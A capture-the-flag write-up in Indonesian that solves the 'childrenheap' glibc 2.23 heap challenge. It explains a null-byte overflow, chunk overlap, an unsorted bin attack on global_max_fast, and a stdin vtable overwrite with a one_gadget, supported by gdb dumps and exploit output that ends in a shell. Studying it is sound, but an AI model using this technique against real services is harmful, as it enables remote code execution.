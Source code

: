 # childrenheap


## Analisa


```
$ file childrenheap; checksec childrenheap
childrenheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=f8ec123c71c9fef8d36e537fd4225de55520627b, not stripped
[*] '/home/vagrant/childrenheap/childrenheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Program memiliki proteksi penuh (+ASLR). Selain itu diberikan juga source code, `ld-2.23.so`, dan `libc-2.23.so`. Jika dilihat sekilas pada source codenya, bug terdapat pada fungsi `update`:
```C
void update()
{
	printf("Index: ");
	int idx = read_int();
	if(idx < 0 || idx >= 16) error("Invalid index!");
	else if(!ptrs[idx]) error("Index is not allocated!");
	printf("Content: ");
	ptrs[idx][read(0,ptrs[idx],sizes[idx])] = 0;
}
```


Bug nya sama persis seperti soal penyisihan `babyheap`, namun program menggunakan malloc non-tcache, dan **tidak ada fastbin** seperti terlihat pada fungsi `init`:
```C
void init()
{
	mallopt(M_MXFAST,0);
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
	setvbuf(stderr,0,2,0);
	alarm(30);
}
```


Yang sebenarnya dilakukan oleh `mallopt(M_MXFAST,0)` adalah set `global_max_fast` ke size minimal dari malloc, 0x10. Eksploitasi heap akan sulit tanpa fastbin, karena pada umumnya kita menggunakan fastbin ini untuk melakukan alokasi di atas **\_\_malloc\_hook** dan mengisi hook dengan **one_gadget**.



## Eksploitasi


Dengan bug null-byte overflow, kita dapat melakukan hal yang sama seperti `babyheap`, tanpa embel-embel tcache. Lakukan chunk overlap dan [unsorted bin attack](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/unsorted_bin_attack.c), yang memerlukan sedikit [Heap Fengshui](https://en.wikipedia.org/wiki/Heap_feng_shui); karena double free tidak bisa dilakukan tanpa chunk overlap. Berikut state malloc sebelum chunk victim kita free:
```
gef> tel $rdi-0x10 4
0x000055cc35826000|+0x0000: 0x0000000000000000
0x000055cc35826008|+0x0008: 0x0000000000000101
0x000055cc35826010|+0x0010: 0x003f3f3f3f3f3f3f
0x000055cc35826018|+0x0018: 0x0000000000000000
gef> tel $rdi-0x10+0x100 4
0x000055cc35826100|+0x0000: 0x0000000000000000 -> "fastbin" chunk target utk overlap I
0x000055cc35826108|+0x0008: 0x0000000000000071
0x000055cc35826110|+0x0010: 0x003f3f3f3f3f3f3f
0x000055cc35826118|+0x0018: 0x0000000000000000
gef> tel $rdi-0x10+0x100+0x70 4
0x000055cc35826170|+0x0000: 0x0000000000000000 -> "fastbin" chunk target utk overlap II
0x000055cc35826178|+0x0008: 0x0000000000000071
0x000055cc35826180|+0x0010: 0x003f3f3f3f3f3f3f
0x000055cc35826188|+0x0018: 0x0000000000000000
...
gef> tel 0x000055cc358261e0 4
0x000055cc358261e0|+0x0000: 0x00000000000001e0 -> victim chunk, updated, fake prev size
0x000055cc358261e8|+0x0008: 0x0000000000000100 -> overflow, PREV_IN_USE bit 0
0x000055cc358261f0|+0x0010: 0x003f3f3f3f3f3f3f
0x000055cc358261f8|+0x0018: 0x0000000000000000
```


Untuk prev size palsu bisa kita kalkulasikan dari jumlah penambahan ukuran chunk yang akan kita satukan (sama seperti babyheap), dalam kasus ini `0x100+0x70+0x70 = 0x1e0`. Berikut state malloc setelah disatukan:
```
gef> tel 0x55cc35826000 4
0x000055cc35826000|+0x0000: 0x0000000000000000 -> chunk pertama, telah disatukan
0x000055cc35826008|+0x0008: 0x00000000000002e1
0x000055cc35826010|+0x0010: 0x00007f7302e0fb78 -> 0x000055cc358263c0
0x000055cc35826018|+0x0018: 0x00007f7302e0fb78 -> 0x000055cc358263c0
gef> tel 0x55cc35826000+0x100 4
0x000055cc35826100|+0x0000: 0x0000000000000100 -> chunk target I
0x000055cc35826108|+0x0008: 0x0000000000000070
0x000055cc35826110|+0x0010: 0x003f3f3f3f3f3f3f
0x000055cc35826118|+0x0018: 0x0000000000000000
gef> tel 0x55cc35826000+0x100+0x70 4
0x000055cc35826170|+0x0000: 0x0000000000000000 -> chunk target II
0x000055cc35826178|+0x0008: 0x0000000000000071
0x000055cc35826180|+0x0010: "????????"
0x000055cc35826188|+0x0018: 0x0000000000000000
```


Chunk target telah berhasil disatukan, meskipun kita masih menggunakannya. Agar mendapatkan leak libc, kita perlu mengalokasikan chunk berukuran 0xf0, agar last remainder berada tepat di atas chunk target:
```
gef> tel $rax-0x10+0x100 4
0x000055cc35826100|+0x0000: 0x0000000000000100 -> chunk target I, last remainder
0x000055cc35826108|+0x0008: 0x00000000000001e1
0x000055cc35826110|+0x0010: 0x00007f7302e0fb78 -> 0x000055cc358263c0 -> 0x0000000000000000
0x000055cc35826118|+0x0018: 0x00007f7302e0fb78 -> 0x000055cc358263c0 -> 0x0000000000000000
```


Setelah melakukan leak, kita alokasikan semua chunk yang telah disatukan dan lakukan delete terhadap salah satu chunk target. Kemudian ketika chunk sudah di-free, update melalui index berbeda agar kita dapat melakukan unsorted bin attack; state chunk setelah pointer bk teroverwrite:
```
gef> tel 0x55cc35826100 4
0x000055cc35826100|+0x0000: 0x0000000000000100
0x000055cc35826108|+0x0008: 0x0000000000000071
0x000055cc35826110|+0x0010: 0x0000000000000000
0x000055cc35826118|+0x0018: 0x00007f7302e117e8 -> global_max_fast-0x10
...
gef> tel &global_max_fast 1
0x00007f7302e117f8|+0x0000: 0x00007f7302e0fb78 -> 0x000055cc358263c0
```


Sekarang kita dapat melakukan fastbin attack tanpa limitasi size. Kita tetap akan menggunakan chunk berukuran 0x60 untuk melakukan alokasi di area libc. Saya sendiri sudah mencoba mengalokasikan chunk di atas **\_\_malloc\_hook**, namun **one\_gadget** crash. Alternatif lainnya adalah dengan mengalokasikan chunk tepat di atas vtable; karena ini libc 2.23 maka memungkinkan untuk melakukan vtable overwrite dan mengisinya dengan **one\_gadget**:
```
gef> tel $2+0x90 10
0x00007f7302e0f970|+0x0000: 0xffffffffffffffff
0x00007f7302e0f978|+0x0008: 0x0000000000000000
0x00007f7302e0f980|+0x0010: 0x00007f7302e0f9c0 -> target, stdin->_wide_data
0x00007f7302e0f988|+0x0018: 0x0000000000000000
0x00007f7302e0f990|+0x0020: 0x0000000000000000
0x00007f7302e0f998|+0x0028: 0x0000000000000000
0x00007f7302e0f9a0|+0x0030: 0x00000000ffffffff
0x00007f7302e0f9a8|+0x0038: 0x0000000000000000
0x00007f7302e0f9b0|+0x0040: 0x0000000000000000
0x00007f7302e0f9b8|+0x0048: 0x00007f7302e0e6e0 -> stdin->vtable
gef> tel $2+0x90+0xd 4
0x00007f7302e0f97d|+0x0000: 0x7302e0f9c0000000 -> fastbin chunk, valid
0x00007f7302e0f985|+0x0008: 0x000000000000007f
0x00007f7302e0f98d|+0x0010: 0x0000000000000000
0x00007f7302e0f995|+0x0018: 0x0000000000000000
```


`stdin` diambil sebagai target karena `fgets(buf,0x10,stdin)` pada fungsi `read_int` menggunakan vtable secara internal. Kita memerlukan area writable; heap cocok untuk ini. Sebelum melakukan attack, kita menggunakan fungsi `show` sekali lagi agar mendapatkan leak heap. Target sudah didapatkan, saatnya eksekusi:
```
gef> tel 0x55cc358261e0
0x000055cc358261e0|+0x0000: 0x00000000000001e0 -> chunk keempat
0x000055cc358261e8|+0x0008: 0x0000000000000101
heap leak <- 0x000055cc358261f0|+0x0010: 0x00007f7302b3b2a4
0x000055cc358261f8|+0x0018: 0x00007f7302b3b2a4 -> execve("/bin/sh",[rsp+0x50],envp)
```


Setelah overwrite fd chunk dan melakukan malloc:
```
gef> tel $rax-0x10
0x00007f7302e0f97d|+0x0000: 0x7302e0f9c0000000
0x00007f7302e0f985|+0x0008: 0x000000000000007f
0x00007f7302e0f98d|+0x0010: 0x0000000000000000  <- $rax, return malloc
gef> p _IO_2_1_stdin_
$16 = {
  file = {
    _flags = 0xfbad208b, 
    ...
    _wide_data = 0x7f7302e0f9c0 <_IO_wide_data_0>, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0xffffffff, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x55cc358261f0
}
```


Output script:
```
$ python exploit.py go
[*] '/home/tempest/projects/cscctf/2019/final/pwn/childrenheap/childrenheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
[+] Opening connection to childrenheap.problem.cscctf.com on port 10002: Done
[*] libc leak: 0x7ff91dfd6b78
[*] libc base: 0x7ff91dc12000
[*] _IO_2_1_stdin_: 0x7ff91dfd68e0
[*] fake vtable: 0x55781681e1f0
[*] Switching to interactive mode
Children Heap
=============
1. Allocate
2. Update
3. Show
4. Free
5. Exit
>> $ cat /home/childrenheap/flag
CCC{W0W_y0u_ar3_pr0f1ciEnT_in_H3Ap}
$ 
[*] Closed connection to 128.199.101.63 port 11115
```